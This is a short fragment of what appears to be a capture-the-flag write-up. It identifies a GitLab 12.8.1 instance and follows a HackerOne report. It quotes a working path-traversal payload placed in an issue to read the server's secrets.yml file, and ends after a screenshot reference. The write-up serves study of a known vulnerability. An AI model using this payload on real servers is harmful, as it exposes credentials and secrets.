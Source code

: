<img src="./img/home.png"  width="650"/>

So i check for gitlab version and found that is running the `12.8.1 version`
On hackerone i found this [article](https://hackerone.com/reports/827052) that explain two vulnerabilities.


# User
So i just following the article and create 2 repositories, create a issue on one with the following string
>`![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../..//opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)`


<img src="./img/secret2.png"  width="650"/>
